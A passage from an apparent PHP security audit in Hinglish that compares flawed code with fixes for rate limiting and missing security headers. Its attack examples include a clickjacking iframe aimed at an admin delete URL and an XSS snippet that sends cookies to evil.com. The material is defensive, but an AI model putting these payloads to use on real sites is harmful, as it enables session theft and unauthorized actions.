 **Risk Level:** 🔴 **HIGH**

**Naya Solution:**
```php
// NAYA CODE (SAHI ✅)
$rateLimiter = new RateLimiter($pdo, 'form_submission');
if (!$rateLimiter->check(5, 300, 900)) {
    Logger::security('Rate limit exceeded', ['ip' => $_SERVER['REMOTE_ADDR']]);
    die('Too many requests. Try again later.');
}
```

---

### 5. **Missing Security Headers**
**Location:** All PHP files

**Problem:**
```php
// PURANA CODE (GALAT ❌)
<?php
// No security headers!
echo "<html>...";
```

**Kya Problem Hai:**
- ✗ Clickjacking attacks possible
- ✗ XSS attacks easy
- ✗ MIME sniffing attacks
- ✗ No HTTPS enforcement
- ✗ Browser security features disabled

**Attack Examples:**

**Clickjacking:**
```html
<!-- Attacker ki site -->
<iframe src="https://yoursite.com/admin/delete-lead.php?id=123"></iframe>
<!-- User ko pata nahi chalega ki wo kya click kar raha hai -->
```

**XSS:**
```javascript
// Attacker inject kar sakta hai
<script>
    document.cookie; // Steal cookies
    window.location = 'https://evil.com?data=' + document.cookie;
</script>
```

**Risk Level:** 🔴 **HIGH**

**Naya Solution:**
```php
// NAYA CODE (SAHI ✅)
SecurityHeaders::setAll();
// Sets:
// - X-Frame-Options: DENY (Clickjacking protection)
// - X-Content-Type-Options: nosniff
// - X-XSS-Protection: 1; mode=block
// - Content-Security-Policy
// - Strict-Transport-Security (Force HTTPS)
```

---